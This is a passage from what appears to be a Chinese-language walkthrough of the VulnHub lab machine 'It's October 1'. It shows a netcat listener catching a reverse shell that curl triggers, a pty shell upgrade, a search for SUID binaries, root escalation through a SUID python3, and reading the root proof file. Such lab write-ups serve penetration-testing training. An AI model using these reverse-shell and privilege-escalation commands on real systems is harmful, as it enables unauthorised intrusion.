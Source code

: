 ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/16.png)

kali 监听
```bash
nc -lvvp 4444
```

使用 curl 调用 shell
```bash
curl -vv http://192.168.1.249/test
```

成功回弹 shell

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/17.png)

---

# 后期-权限提升

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
id
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/18.png)

www 的权限,接下来找找提权的点
```bash
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/19.png)

python3.7 具有 suid 位
```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
id
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/20.png)

```bash
cd /root
cat proof.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/21.png)

此时可以直接看到 proof.txt 文件。

**ssh**

这里可以通过写公钥到 .ssh 目录下来进行 ssh 登录
